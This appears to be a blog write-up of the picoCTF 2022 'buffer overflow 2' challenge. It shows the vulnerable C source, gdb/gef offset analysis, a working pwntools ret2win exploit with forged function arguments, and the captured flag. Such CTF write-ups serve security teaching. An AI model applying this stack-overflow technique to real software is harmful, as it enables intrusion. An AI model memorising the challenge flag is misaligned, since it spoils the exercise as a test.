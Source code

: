 ```yaml
---
layout: post
title: Buffer overflow with arguments - picoCTF 2022 buffer overflow 2
tags: [CTF, pwn]
---
```

> Control the return address and arguments This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/345/vuln)? You can view source [here](https://artifacts.picoctf.net/c/345/vuln.c). And connect with it using `nc saturn.picoctf.net 56888`

## Check the source
The source code is simple. There's a buffer overflow happening and the target is to call the hidden function with the correct arguments.
```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
```

## Attack
First check how many bytes before the return address is overwritten.
```
gef➤  info frame
Stack level 0, frame at 0xffffcba4:
 eip = 0x62616164; saved eip = 0x62616165
 called by frame at 0xffffcba8
 Arglist at 0xffffcb9c, args: 
 Locals at 0xffffcb9c, Previous frame's sp is 0xffffcba4
 Saved registers:
  eip at 0xffffcba0
gef➤  pattern search $eip
[+] Searching for '$eip'
[+] Found at offset 112 (little-endian search) likely
[+] Found at offset 304 (big-endian search)
```
So dummy will be 112 bytes long. `info address` can be used to get the address of `win` function.
```
gef➤  info address win
Symbol "win" is at 0x8049296 in a file compiled without debugging.
```
Next is to get the offset of two arguments. First let's take a look at the disassembled `win` function.
```
0x0804930c <+118>:   cmp    DWORD PTR [ebp+0x8],0xcafef00d
0x08049313 <+125>:   jne    0x804932f <win+153>
0x08049315 <+127>:   cmp    DWORD PTR [ebp+0xc],0xf00df00d
0x0804931c <+134>:   jne    0x8049332 <win+156>
```
This is where the comparison happens. `ebp+0x8` and `ebp+0xc` are compared with the target value.

To find the offset, replace part of the pattern with `win`'s address so the program will jump there. Then, break at the `cmp` and examine the stack.
```python
from pwn import *

PATTERN = [REDACTED]

win = 0x8049296
arg1 = 0xcafef00d
arg2 = 0xf00df00d

ret_offset = 112

exploit = PATTERN[:ret_offset] + p32(win) + PATTERN[ret_offset + len(p32(win)):]

with open("./test", "wb") as f:
  f.write(exploit)
```
Now we are at the `cmp`, let's see what `$ebp+0x8` and `$ebp+0xc` look like.
```
gef➤  x $ebp+0x8
0xffffcba4:     0x62616166
gef➤  x $ebp+0xc
0xffffcba8:     0x62616167
```
Which are offset 120 and 124 respectively.

So the final exploit contains 112 bytes of dummy, then the address of `win`, then 4 more bytes of dummy, then the two value for comparison.
```python
from pwn import *

PATTERN = [REDACTED]

win = 0x8049296
arg1 = 0xcafef00d
arg2 = 0xf00df00d

ret_offset = 112
arg1_offset = 120
arg2_offset = 124

exploit = PATTERN[:ret_offset] + p32(win) + b"A" * 4 + p32(arg1) + p32(arg2)

# with open("./test", "wb") as f:
#   f.write(exploit)

r = remote("saturn.picoctf.net", 61076)
r.sendline(exploit)
r.interactive()
```
```
❯ python3 ./solve.py
[+] Opening connection to saturn.picoctf.net on port 61076: Done
[*] Switching to interactive mode
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaa\xf0\xfe\xca4AAAA
picoCTF{argum3nt5_4_d4yZ_4b24a3aa}$ [*] Got EOF while reading in interactive
$ 
$ 
[*] Interrupted
[*] Closed connection to saturn.picoctf.net port 61076
```